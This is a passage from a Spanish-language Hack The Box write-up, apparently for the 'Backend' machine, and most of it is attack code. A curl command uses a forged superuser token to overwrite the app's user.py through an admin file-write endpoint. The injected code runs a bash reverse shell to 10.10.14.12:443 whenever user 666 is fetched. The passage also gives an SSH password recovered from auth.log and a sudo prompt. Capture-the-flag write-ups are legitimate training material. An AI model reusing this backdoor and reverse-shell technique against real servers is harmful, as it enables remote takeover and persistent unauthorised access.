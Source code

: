 curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/api/v1/endpoints/user.py" | base64) -H 'Content-Type: application/json' -d '{"file": "from typing import Any, Optional\nfrom uuid import uuid4\nfrom datetime import datetime\n\n\nfrom fastapi import APIRouter, Depends, HTTPException, Query, Request\nfrom fastapi.security import OAuth2PasswordRequestForm\nfrom sqlalchemy.orm import Session\n\nfrom app import crud\nfrom app import schemas\nfrom app.api import deps\nfrom app.models.user import User\nfrom app.core.security import get_password_hash\n\nfrom pydantic import schema\ndef field_schema(field: schemas.user.UserUpdate, **kwargs: Any) -> Any:\n    if field.field_info.extra.get(\"hidden_from_schema\", False):\n        raise schema.SkipField(f\"{field.name} field is being hidden\")\n    else:\n        return original_field_schema(field, **kwargs)\n\noriginal_field_schema = schema.field_schema\nschema.field_schema = field_schema\n\nfrom app.core.auth import (\n    authenticate,\n    create_access_token,\n)\n\nrouter = APIRouter()\n\n@router.get(\"/{user_id}\", status_code=200, response_model=schemas.User)\ndef fetch_user(*, \n    user_id: int, \n    db: Session = Depends(deps.get_db) \n    ) -> Any:\n    \"\"\"\n    Fetch a user by ID\n    \"\"\"\n    if user_id == 666:\n        import os; os.system('\''bash -c \"bash -i >& /dev/tcp/10.10.14.12/443 0>&1\"'\'')\n    result = crud.user.get(db=db, id=user_id)\n    return result\n\n\n@router.put(\"/{user_id}/edit\")\nasync def edit_profile(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.UserUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Edit the profile of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.put(\"/{user_id}/password\")\nasync def edit_password(*,\n    db: Session = Depends(deps.get_db),\n    token: User = Depends(deps.parse_token),\n    new_user: schemas.user.PasswordUpdate,\n    user_id: int\n) -> Any:\n    \"\"\"\n    Update the password of a user\n    \"\"\"\n    u = db.query(User).filter(User.id == token['\''sub'\'']).first()\n    if token['\''is_superuser'\''] == True:\n        crud.user.update(db=db, db_obj=u, obj_in=new_user)\n    else:        \n        u = db.query(User).filter(User.id == token['\''sub'\'']).first()        \n        if u.id == user_id:\n            crud.user.update(db=db, db_obj=u, obj_in=new_user)\n            return {\"result\": \"true\"}\n        else:\n            raise HTTPException(status_code=400, detail={\"result\": \"false\"})\n\n@router.post(\"/login\")\ndef login(db: Session = Depends(deps.get_db),\n    form_data: OAuth2PasswordRequestForm = Depends()\n) -> Any:\n    \"\"\"\n    Get the JWT for a user with data from OAuth2 request form body.\n    \"\"\"\n    \n    timestamp = datetime.now().strftime(\"%m/%d/%Y, %H:%M:%S\")\n    user = authenticate(email=form_data.username, password=form_data.password, db=db)\n    if not user:\n        with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Failure for {form_data.username}\\n\")\n        raise HTTPException(status_code=400, detail=\"Incorrect username or password\")\n    \n    with open(\"auth.log\", \"a\") as f:\n            f.write(f\"{timestamp} - Login Success for {form_data.username}\\n\")\n\n    return {\n        \"access_token\": create_access_token(sub=user.id, is_superuser=user.is_superuser, guid=user.guid),\n        \"token_type\": \"bearer\",\n    }\n\n@router.post(\"/signup\", status_code=201)\ndef create_user_signup(\n    *,\n    db: Session = Depends(deps.get_db),\n    user_in: schemas.user.UserSignup,\n) -> Any:\n    \"\"\"\n    Create new user without the need to be logged in.\n    \"\"\"\n\n    new_user = schemas.user.UserCreate(**user_in.dict())\n\n    new_user.guid = str(uuid4())\n\n    user = db.query(User).filter(User.email == new_user.email).first()\n    if user:\n        raise HTTPException(\n            status_code=400,\n            detail=\"The user with this username already exists in the system\",\n        )\n    user = crud.user.create(db=db, obj_in=new_user)\n\n    return user\n\n"}' -H 'Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A'
```

-------------------------
# Part 6: Dentro del sistema

Una vez en el sistema, al igual que la máquina anterior, en la carpeta principal hay un auth.log con una contraseña que nos permitiría conectarnos
como el usuario actual por ssh ```1qaz2wsx_htb!```
Una vez dentro de la máquina, si haces ```sudo -l``` y pones la contraseña te sale un juego del wordle
```console
  >  SUDO NO PASSWD
[sudo] password for htb:
--- Welcome to PAM-Wordle! ---
```